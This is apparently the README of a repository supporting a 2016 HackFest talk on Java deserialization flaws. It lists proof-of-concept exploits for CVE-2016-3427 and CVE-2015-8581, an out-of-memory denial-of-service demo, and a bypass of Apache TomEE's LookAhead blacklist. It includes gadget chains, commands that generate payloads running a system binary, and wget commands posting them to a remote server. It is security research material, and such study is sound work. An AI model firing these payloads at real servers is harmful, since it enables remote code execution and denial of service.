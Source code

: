# Fixing the Java Serialization mess
Supporting source code for a [HackFest 2016 presentation](https://hackfest.ca/en/speakers/#ernst)

![Bonhomme Carnaval, Duke-style](bonhomme-duke.svg.png "Bonhomme Carnaval, Duke-style")

## Installation
```bash
mvn install
```

## Content

### POC for [CVE-2016-3427](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-3427)
Class `com.salesforce.trust.s11n.exploit.JmxClient`

Tries to:

1. Connect to the provided JMX server using the *long* connection string syntax
2. Connect to the provided JMX server using the *RMI* connection string syntax.
  * Sends the provided user name and password as credentials.
  * Sends a [Malicious Set instance](https://gist.github.com/coekie/a27cc406fc9f3dc7a70d) as credentials, in order to cause a Denial of Service attack on the JMX server. Only works when the server runs Java 8 u 77 (or earlier)
```bash
java -cp target/hackfest-2016.jar:target/lib/commons-io-2.5.jar:target/lib/javaee-api-6.0-6.jar:target/lib/openejb-core4.7.4.jar:target/lib/openwebbeans-impl-1.2.7.jar:target/lib/openwebbeans-spi-1.2.7.jar:target/lib/serp-1.15.1.jar:target/lib/tomcat-juli-8.5.5.jar:target/lib/tomcat-tribes-8.5.5.jar com.salesforce.trust.s11n.exploit.JmxClient hostName registryPort jmxPort userName
```

### POC for Denial of Service attack
Class `com.salesforce.trust.s11n.exploit.JreOutOfMemory`

Throws `OutOfMemoryError` when deserializingin doctored instances of various well known classes
```bash
java -cp target/hackfest-2016.jar:target/lib/commons-io-2.5.jar:target/lib/javaee-api-6.0-6.jar:target/lib/openejb-core-4.7.4.jar:target/lib/openwebbeans-impl-1.2.7.jar:target/lib/openwebbeans-spi-1.2.7.jar:target/lib/serp-1.15.1.jar:target/lib/tomcat-juli-8.5.5.jar:target/lib/tomcat-tribes-8.5.5.jar com.salesforce.trust.s11n.exploit.JreOutOfMemory
```

### POC for [CVE-2015-8581](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-8581)
Class `com.salesforce.trust.s11n.exploit.TomeeLookAheadBypass`

Generates a 'regular' gadget that can be used on older versions of [Apache TomEE](http://tomee.apache.org/apache-tomee.html) (before LookAhead validation was added, 1.7.3 or older)
#### Gadget chain: 
```
ObjectInputStream.readObject() 
  Throwable.readObject()
    List.isEmpty()
      (Proxy) EventHandler.invoke()
        Method.invoke()
          ProcessBuilder.start()
```
#### Usage:
Generate a binary file containing an OS command injection for `/usr/bin/gnome-calculator`:
```bash
java -cp target/hackfest-2016.jar:target/lib/commons-io-2.5.jar:target/lib/javaee-api-6.0-6.jar:target/lib/openejb-core-4.7.4.jar:target/lib/openwebbeans-impl-1.2.7.jar:target/lib/openwebbeans-spi-1.2.7.jar:target/lib/serp-1.15.1.jar:target/lib/tomcat-juli-8.5.5.jar:target/lib/tomcat-tribes-8.5.5.jar com.salesforce.trust.s11n.exploit.TomeeLookAheadBypass regular /usr/bin/gnome-calculator
```
Send the file to the remote TomEE server:
```bash
wget --post-file tomee1.ser http://remote-server:8080/tomee/ejb
```

### POC for bypassing [LookAhead Mitigation](http://www.ibm.com/developerworks/library/se-lookahead/) in [Apache TomEE](http://tomee.apache.org/apache-tomee.html) version 1.7.4
Class `com.salesforce.trust.s11n.exploit.TomeeLookAheadBypass` can also generate a different gadget that can bypass TomEE mitigation.
TomEE is secure by default, since everything is black-listed when you install it.
#### File `conf/system.properties`
Upon install, the file contains these 2 lines:
```
tomee.serialization.class.blacklist = *
# tomee.serialization.class.whitelist = my.package
```

To enable OpenEJB, we want to restrict the black list to known malicious classes, and we want to include our legitimate classes in the white list:
```
tomee.serialization.class.blacklist = java.lang.ProcessBuilder
tomee.serialization.class.whitelist = bonhomme.Carnaval, java, org.apache
```

This configuration provides an adequate mitigation against [CVE-2015-8581](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-8581), however, it can be bypassed by this new gadget:

#### Gadget chain: 
```
ObjectInputStream.readObject()
  EventImpl.readObject()
    OwbCustomObjectInputStream.readObject()
      Throwable.readObject()
        List.isEmpty()
          (Proxy) EventHandler.invoke()
            Method.invoke()
              ProcessBuilder.start()
```
#### Usage:
Generate a binary file containing an OS command injection for `/usr/bin/gnome-calculator` (note the `bypass` flag):
```bash
java -cp target/hackfest-2016.jar:target/lib/commons-io-2.5.jar:target/lib/javaee-api-6.0-6.jar:target/lib/openejb-core-4.7.4.jar:target/lib/openwebbeans-impl-1.2.7.jar:target/lib/openwebbeans-spi-1.2.7.jar:target/lib/serp-1.15.1.jar:target/lib/tomcat-juli-8.5.5.jar:target/lib/tomcat-tribes-8.5.5.jar com.salesforce.trust.s11n.exploit.TomeeLookAheadBypass bypass /usr/bin/gnome-calculator
```
Send the file to the remote TomEE server:
```bash
wget --post-file tomee2.ser http://remote-server:8080/tomee/ejb
```

### POC for LookAhead Bytecode Blacklist
#### Input validation flow
![Flow chart](flow-chart.svg.png "Flow chart")
#### Code
Package `com.salesforce.trust.s11n.mitigation`